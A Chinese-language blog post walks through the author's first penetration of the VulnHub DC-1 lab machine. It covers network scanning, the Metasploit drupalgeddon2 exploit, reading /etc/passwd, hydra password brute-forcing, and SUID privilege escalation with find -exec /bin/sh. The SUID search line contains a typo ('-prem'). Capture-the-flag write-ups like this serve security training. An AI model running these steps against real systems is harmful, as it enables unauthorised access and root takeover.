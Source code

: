 ```yaml
---
layout: post
title: "DC-1"
date: 2019-9-14
description: "我的第一次渗透DC-1"
tag: 技术
---
```




## 我的第一次渗透
[靶机地址](https://www.vulnhub.com/entry/dc-1-1,292/)

渗透的环境为kali ***readyGo***

---
### 获取信息
+ `arp-scan -l`

获取当前局域网内的IP
![arp-scan](/images/posts/DC-1-1/arp.png)

出现了*192.168.79.2*和*192.168.79.131* **-_-！** 怎么会有两个IP，不管了一个一个试吧

+ `nmap -A -p0-65535 192.168.79.2`
+ `nmap -A -p0-65535 192.168.79.131`

192.168.79.2这个IP搞不懂到底是哪儿的，nmap扫出来后看到只开放了dns解析服务，所以靶机不是它。192.168.79.131我来了

![nmap](/images/posts/DC-1-1/nmap.png)

看到它开放了80端口使用的cms为drupal

### 查找漏洞
使用 **Metasploit** 查找该cms的漏洞
+ `search drupal`

![search](/images/posts/DC-1-1/search.png)

选择2018-03-28这个漏洞

+ `use exploit/unix/webapp/drupal_drupalgeddon2 `
+ `show options`
+ `set rhosts 192.168.79.131`

![show](/images/posts/DC-1-1/show.png)

设置required为yes的参数，GO！！！

### 成功获取到shell

![shell](/images/posts/DC-1-1/shell.png)

+ `cat /etc/passwd`查看电脑上有哪些用户

![passwd](/images/posts/DC-1-1/passwd.png)

看到有flag4用户，直接hydra走一波~~~等待的过程总是漫长的，我讨厌爆破，但也是我目前唯一会的. . . . . .

![hydra](/images/posts/DC-1-1/hydra.png)

看到密码为orange

![hint](/images/posts/DC-1-1/hint.png)

官方提示需要读取的flag在/root下，SO

### 提权
+ `find / -type f -prem -u=s 2>/dev/null`
查看有哪些命令具有suid权限

+ `find / -name flag4 -exec "/bin/sh" \;`

![root](/images/posts/DC-1-1/root.png)

#### 我的第一次靶机渗透成功

![success](/images/posts/DC-1-1/success.png)

linux命令必须得玩透！！！不然就是一脸懵逼，提权全靠别人写好的博客。。。太难了
